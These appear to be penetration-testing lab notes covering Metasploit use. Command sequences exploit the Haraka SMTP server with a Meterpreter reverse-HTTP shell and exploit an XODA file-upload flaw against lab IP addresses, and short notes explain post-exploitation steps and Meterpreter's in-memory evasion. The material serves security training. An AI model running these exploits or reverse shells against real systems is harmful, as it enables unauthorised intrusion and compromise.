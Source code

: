 ```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a smtp
msf6> db_nmap -sS -sV -O 192.228.200.3
msf6> setg rhosts 192.228.200.3

msf6> use exploit/linux/smtp/haraka
msf6> setg rhost 192.228.200.3
msf6> set srvport 9898
msf6> set email_to root@attackdefense.test
msf6> set payload linux/x64/meterpreter_reverse_http
msf6> run

meterpreter> sysinfo
```

### Post exploitation

* Post exploitation refers to the actions performed on the target system after initial access has been obtained.
* The post exploitation phase of a penetration test consists of various techniques like :
  * Local enumeration
  * Privilege escalation
  * Dumping hashes
  * Establishing persistence
  * Clearing your tracks
  * Pivoting

### Meterpreter fundamentals

* The Meterpreter (Meta-Interpreter) payload is an advanced multi-functional payload that operates via DLL injection and is executed in memory on the target system, consequently making it difficult to detect.
* It communicates over a stager socket and provides an attacker with an interactive interpreter on the target system that facilitates the execution of system commands, file system navigation, keylogging and much more.
* Meterpreter also allows us to load custom script and plugins dynamically.
* MSF provides us with various types of meterpreter payloads that can be used based on the target environment and the OS architecture.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a meterpreter
msf6> setg rhosts 192.104.51.3
msf6> db_nmap -sV -sS -O 192.104.51.3

msf6> curl http://192.104.51.3
msf6> use exploit/unix/webapp/xoda_file_upload
msf6> set targeturi /
msf6> run

meterpreter> sysinfo
```
